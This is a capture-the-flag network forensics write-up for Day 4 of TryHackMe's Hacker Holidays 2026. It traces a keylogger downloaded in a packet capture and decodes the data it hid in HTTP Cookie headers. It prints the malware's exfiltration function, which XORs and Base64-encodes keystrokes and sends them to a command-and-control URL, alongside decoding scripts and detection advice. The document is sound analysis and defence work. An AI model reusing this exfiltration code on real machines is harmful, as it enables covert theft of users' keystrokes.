

# Hacker Holidays: Day 4 - Packed Light

> 📝 **Write-up credit:** Based on the English write-up by [`shelvy1337` (Cybersecurity-Writeups)](https://github.com/shelvy1337/Cybersecurity-Writeups/tree/main/TryHackMe/Hacker%20Holidays%202026) and used with attribution per that repository's terms. Flag values are censored as `THM{REDACTED}` per this repository's convention.

---

> This time we are not attacking a web application directly. We are given a `traffic.pcapng` capture and need to find a covert channel in HTTP traffic. The data is hidden in a Cookie header, Base64-encoded, and XORed.

## Quick Overview

| Field | Value |
| --- | --- |
| Platform | TryHackMe |
| Event | Hacker Holidays 2026 |
| Day | 4 |
| Category | Forensics |
| Difficulty | Easy |
| Techniques | Network Forensics, PCAP Analysis, HTTP Headers, XOR, Base64 |
| File | `traffic.pcapng` |

## Objective

The goal was to analyze the packet capture, identify a covert communication channel, reconstruct the transmitted data, and decode the flag.

The room description hinted at regular traffic to a random host and suspicious HTTP headers. That made HTTP requests the best starting point.

## Attack Path

1. I opened `traffic.pcapng` in Wireshark.
2. I applied the `http.request` filter.
3. I found a suspicious downloaded file named `updates.py`.
4. I analyzed the script and identified it as a simple keylogger.
5. I located the covert channel in the `Cookie` header.
6. I extracted the `hotel_sess_state` values from the following requests.
7. I decoded the values with Base64 and XORed them with the first byte of the key.
8. I recovered the flag.

## Recon

The hint from `@0xMia` mentioned regular requests, port `8080`, strange headers, and crypto:

<p align="center">
  
</p>

In Wireshark, the best first filter is:

```text
http.request
```

One request stands out:

```text
GET /temp/updates.py HTTP/1.1
```

That file became the main artifact to analyze, because the later requests looked like regular callbacks generated by the same mechanism.

## Exporting The Suspicious Script

The file can be extracted from Wireshark with:

```text
File -> Export Objects -> HTTP
```

After saving `updates.py`, the imports already look suspicious:

```python
import requests
import base64
from pynput import keyboard
```

The script also contains the C2 URL:

```python
C2_URL = "http://byte-lotus-hotel.thm:8080/"
```

## Covert Channel

The key function sends a single captured character:

```python
def sendltr(character):
    raw_bytes = character.encode('utf-8')
    encrypted = xor(raw_bytes, getkey().encode('utf-8'))
    
    b64_string = base64.b64encode(encrypted).decode('utf-8')
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
        "Cookie": f"hotel_sess_state={b64_string}"
    }
    requests.get(C2_URL, headers=headers, timeout=0.5)
```

The data is hidden in:

```text
Cookie: hotel_sess_state=<base64>
```

Each request carries one encoded character.

## The XOR Key Trick

The script contains a long key:

```python
def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2
```

At first glance, it looks like the full value should be used:

```text
H0t3lSt@ff0NlyK3epS3cr3t!
```

Using the full key produces garbage. The reason is that `sendltr()` encrypts one character at a time, so `raw_bytes` has a length of `1`. The XOR loop only runs for index `0`, which means it always uses only the first byte of the key.

The effective key is:

```text
H
```

or:

```text
0x48
```

## Extracting Cookies

The requests after `updates.py` contain `hotel_sess_state` values such as:

```text
HA==
AA==
BQ==
Mw==
Hg==
```

They can be collected manually in Wireshark by expanding:

```text
Hypertext Transfer Protocol -> Cookie
```

They can also be extracted directly from the capture with a small script:

```python
import re
from pathlib import Path

pcap = Path("traffic.pcapng").read_bytes()
cookies = re.findall(rb"hotel_sess_state=([A-Za-z0-9+/=]+)", pcap)

for cookie in cookies:
    print(cookie.decode())
```

## Decoding

The process must be reversed:

```text
Cookie -> Base64 decode -> XOR with 0x48 -> character
```

Minimal decoder:

```python
import base64
import re
from pathlib import Path

pcap = Path("traffic.pcapng").read_bytes()
cookies = re.findall(rb"hotel_sess_state=([A-Za-z0-9+/=]+)", pcap)

flag = "".join(
    chr(base64.b64decode(cookie)[0] ^ ord("H"))
    for cookie in cookies
)

print(flag)
```

Running the script prints the flag in `THM{...}` format.

## Flag

After correctly reversing Base64 and XOR, the flag is accepted:

**Flag:** `THM{REDACTED}`

## Why It Works

The script behaves like a simple keylogger. Every keypress is converted to a byte, XORed, Base64-encoded, and sent inside a Cookie header. The traffic looks like normal HTTP requests, but each request carries a tiny piece of exfiltrated data.

The interesting part is the encryption bug. The long key suggests repeating-key XOR, but because the script encrypts one character at a time, only the first character of the key is ever used. That makes decoding much easier.

## How To Detect It

- Look for regular requests to unusual hosts or ports.
- Inspect HTTP headers, not only request bodies.
- Pay attention to Base64-like values in `Cookie`, `User-Agent`, or custom headers.
- Review scripts and binaries transferred over HTTP.
- Correlate small repeated requests with earlier downloads of suspicious files.

## Summary

Day 4 of Hacker Holidays 2026 is a neat network forensics challenge. First, we find the downloaded `updates.py` script, then identify the `Cookie: hotel_sess_state` covert channel, collect the request values, and reverse the encoding.

The core idea: `http.request`, export `updates.py`, analyze `hotel_sess_state`, Base64 decode, and XOR with `H`.
